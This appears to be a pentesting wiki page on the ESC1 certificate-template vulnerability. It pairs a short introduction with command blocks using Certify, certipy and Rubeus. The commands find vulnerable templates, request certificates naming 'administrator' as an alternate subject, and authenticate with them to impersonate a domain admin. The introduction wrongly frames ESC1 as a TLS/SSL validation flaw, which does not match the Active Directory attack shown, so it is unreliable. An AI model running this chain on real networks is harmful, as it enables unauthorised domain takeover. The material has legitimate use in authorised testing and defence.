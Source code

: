 # ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

#### ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

The Arbitrary Subject Alternative Name (SAN) Vulnerability refers to a security flaw in certificate validation mechanisms of TLS/SSL protocols. This vulnerability allows attackers to issue certificates that include unauthorized domain names in the SAN field, potentially enabling phishing attacks or man-in-the-middle (MITM) attacks.&#x20;

It stems from inadequate verification of the entities that request certificates and the domains listed in the SAN field.

To mitigate this vulnerability, it's essential to:

* Implement strict validation processes for certificate requests, ensuring that the entity requesting the certificate has legitimate control over the domains listed in the SAN field.
* Use Certificate Transparency logs to monitor and identify potentially malicious certificates.
* Employ modern TLS libraries and configurations that adhere to best practices in certificate validation.

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```

To **abuse this vulnerability to impersonate an administrator** one could run:

```bash
Certify.exe request /ca:dc.theshire.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
```

Then you can transform the generated **certificate to `.pfx`** format and use it to **authenticate using Rubeus or certipy** again:

```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 
```

```
<ins class="adsbygoogle"
     style="display:block"
     data-ad-format="autorelaxed"
     data-ad-client="ca-pub-9236847887178276"
     data-ad-slot="8563560657"></ins>
```
